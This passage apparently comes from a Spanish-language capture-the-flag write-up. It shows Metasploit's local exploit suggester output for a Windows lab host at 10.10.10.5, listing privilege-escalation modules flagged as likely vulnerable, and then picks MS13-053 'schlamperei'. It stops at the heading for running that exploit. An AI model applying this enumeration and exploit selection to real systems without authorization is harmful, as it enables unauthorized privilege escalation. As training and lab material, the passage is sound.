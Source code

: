 ```bash
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.5 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 3   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 8   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 10  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 12  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```
Obviamente no podemos usar todos los Exploits, debemos investigar cada uno para saber cual es el indicado para usar. Después de investigar, nos puede servir el **Exploit ms13_053_schlamperei**, así que vamos a usarlo.

<br>

<h3 id="MS13">Usando Exploit MS13-053 schlamperei</h3>
